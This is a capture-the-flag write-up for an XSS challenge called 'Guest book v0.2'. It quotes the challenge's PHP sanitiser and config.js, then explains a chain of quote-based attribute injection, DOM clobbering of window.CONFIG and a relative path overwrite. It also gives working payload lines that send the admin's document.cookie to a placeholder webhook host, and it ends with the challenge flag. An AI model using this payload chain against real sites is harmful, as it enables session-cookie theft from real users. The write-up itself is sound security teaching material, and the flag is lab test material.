




## Guest book v0.2  



This challenge involves a typical XSS setup.  
  
`/GuestBook.php` allows us to render arbitrary content, while `/Report.php` gets the server to visit our payload on `/GuestBook.php` with an admin bot.  



Looking at the HTML source of `/GuestBook.php`, we can see that our payload is rendered in the `container` div, but a `config.js` script is loaded after that.  

Finally, the webpage will redirect to `window.CONFIG.MAIN` using a `location.href` assignment, if `window.CONFIG.debug` is enabled.  



`config.js` is just a simple file that defines a `window.CONFIG` object, then locks it.  

```js
window.CONFIG = {
  version: "v0.2",
  main: "/",
  debug: false,
  debugMSG: ""
}

// prevent overwrite
Object.freeze(window.CONFIG);
```

We are only provided with this PHP source file, which we can assume is the backend code for `/GuestBook.php`.  

It has two features. It converts Markdown style links to HTML `<a>` tags, and it enforces a whitelist of HTML attributes.  

```php
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  PreventXSS($content);
  return $content;
}

$ALLOW_TAGS_ATTRS = array(
  "html"=>['id', 'name'],
  "body"=>['id', 'name'],
  "a"=>['id','href','name'],
  "p"=>['id', 'name'],
);

function PreventXSS($input){
  global $ALLOW_TAGS_ATTRS;

  $htmldoc = new DOMDocument();
  $htmldoc->loadHTML($input);

  $tags = $htmldoc->getElementsByTagName("*");
    
  foreach ($tags as $tag) {
    if( !$ALLOW_TAGS_ATTRS[strtolower($tag->nodeName)] ) DisallowAction();
    $allow_attrs = $ALLOW_TAGS_ATTRS[strtolower($tag->nodeName)];
    foreach($tag->attributes as $attr){
        if( !in_array(strtolower($attr->nodeName), $allow_attrs) ) DisallowAction();
    }
  }
}

function DisallowAction(){
	die("no hack");
}

?>
```

Even with these constraints, we can still achieve arbitrary JS code execution.  

`htmlentities()` only escapes `<>`, so we can still escape the quotes to inject arbitrary HTML attributes.  

We can then us DOM clobbering to get the Markdown parser to overwrite both `window.CONFIG.debug` and `window.CONFIG.main`. `window.CONFIG.debug` is now a truthy value, so the redirect from earlier is triggered. The `location.href` assignment will then coerce the DOM element `window.CONFIG.main` to a string by resolving to its `href` attribute, redirecting to our JS payload.  

```
[a](' id='CONFIG)
[b](' id='CONFIG' name='debug)
[c](javascript:location.href=`<webhook>/${document.cookie}`' id='CONFIG' name='main)
```

However, we still need to overcome the challenge of `config.js` overwriting our DOM clobbering payload.  

To do this, we can abuse a PHP-specific quirk to get a relative path overwrite.  

PHP allows arbitrary sub-endpoints after the main filepath, so if we just append `/a/` to the back of the URL path, the webpage will now attempt to load `./a/config.js` instead of `./config.js`, preventing the protection script from loading and executing.  

```
/GuestBook.php/a/?content=<xxx>
```

Submitting our payload to `/ReportBook.php` will then exfiltrate the flag cookie to our webhook.  



Flag: `DH{f35a6e5d4109190bdfa3fa59134cff19}`